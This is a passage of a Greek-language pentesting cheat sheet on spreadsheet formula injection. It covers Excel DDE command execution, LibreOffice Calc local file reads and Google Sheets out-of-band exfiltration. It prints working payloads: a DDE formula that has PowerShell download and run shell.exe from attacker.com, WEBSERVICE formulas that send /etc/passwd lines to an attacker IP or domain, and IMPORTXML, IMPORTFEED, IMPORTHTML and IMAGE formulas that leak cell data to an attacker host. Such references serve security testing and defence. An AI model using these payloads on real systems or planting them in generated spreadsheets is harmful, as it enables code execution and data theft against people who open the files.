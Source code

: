 ### RCE

**Ελέγξτε την** [**αρχική ανάρτηση**](https://notsosecure.com/data-exfiltration-formula-injection-part1) **για περισσότερες λεπτομέρειες.**

Σε συγκεκριμένες ρυθμίσεις ή παλαιότερες εκδόσεις του Excel, μια δυνατότητα που ονομάζεται Dynamic Data Exchange (DDE) μπορεί να εκμεταλλευτεί για την εκτέλεση αυθαίρετων εντολών. Για να αξιοποιηθεί αυτό, οι παρακάτω ρυθμίσεις πρέπει να είναι ενεργοποιημένες:

* Μεταβείτε στο Αρχείο → Επιλογές → Κέντρο εμπιστοσύνης → Ρυθμίσεις Κέντρου εμπιστοσύνης → Εξωτερικό περιεχόμενο, και ενεργοποιήστε την **Εκκίνηση Διακομιστή Dynamic Data Exchange**.

Όταν ένα υπολογιστικό φύλλο με το κακόβουλο payload ανοίγει (και αν ο χρήστης αποδεχτεί τις προειδοποιήσεις), το payload εκτελείται. Για παράδειγμα, για να εκκινήσει την εφαρμογή υπολογιστή, το payload θα ήταν:
```markdown
=cmd|' /C calc'!xxx
```
Επιπλέον εντολές μπορούν επίσης να εκτελούνται, όπως η λήψη και εκτέλεση ενός αρχείου χρησιμοποιώντας το PowerShell:
```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```
### Local File Inclusion (LFI) in LibreOffice Calc

Το LibreOffice Calc μπορεί να χρησιμοποιηθεί για την ανάγνωση τοπικών αρχείων και την εξαγωγή δεδομένων. Ακολουθούν μερικές μέθοδοι:

* Ανάγνωση της πρώτης γραμμής από το τοπικό αρχείο `/etc/passwd`: `='file:///etc/passwd'#$passwd.A1`
* Εξαγωγή των αναγνωσθέντων δεδομένων σε έναν διακομιστή ελεγχόμενο από τον επιτιθέμενο: `=WEBSERVICE(CONCATENATE("http://<attacker IP>:8080/",('file:///etc/passwd'#$passwd.A1)))`
* Εξαγωγή περισσότερων από μία γραμμές: `=WEBSERVICE(CONCATENATE("http://<attacker IP>:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
* Εξαγωγή DNS (αποστολή αναγνωσθέντων δεδομένων ως DNS ερωτήματα σε έναν διακομιστή DNS ελεγχόμενο από τον επιτιθέμενο): `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),".<attacker domain>"))`

### Google Sheets for Out-of-Band (OOB) Data Exfiltration

Το Google Sheets προσφέρει συναρτήσεις που μπορούν να εκμεταλλευτούν για την εξαγωγή δεδομένων OOB:

* **CONCATENATE**: Συνενώνει συμβολοσειρές - `=CONCATENATE(A2:E2)`
* **IMPORTXML**: Εισάγει δεδομένα από δομημένους τύπους δεδομένων - `=IMPORTXML(CONCAT("http://<attacker IP:Port>/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")`
* **IMPORTFEED**: Εισάγει RSS ή ATOM ροές - `=IMPORTFEED(CONCAT("http://<attacker IP:Port>//123.txt?v=", CONCATENATE(A2:E2)))`
* **IMPORTHTML**: Εισάγει δεδομένα από HTML πίνακες ή λίστες - `=IMPORTHTML (CONCAT("http://<attacker IP:Port>/123.txt?v=", CONCATENATE(A2:E2)),"table",1)`
* **IMPORTRANGE**: Εισάγει μια περιοχή κελιών από άλλο υπολογιστικό φύλλο - `=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")`
* **IMAGE**: Εισάγει μια εικόνα σε ένα κελί - `=IMAGE("https://<attacker IP:Port>/images/srpr/logo3w.png")`

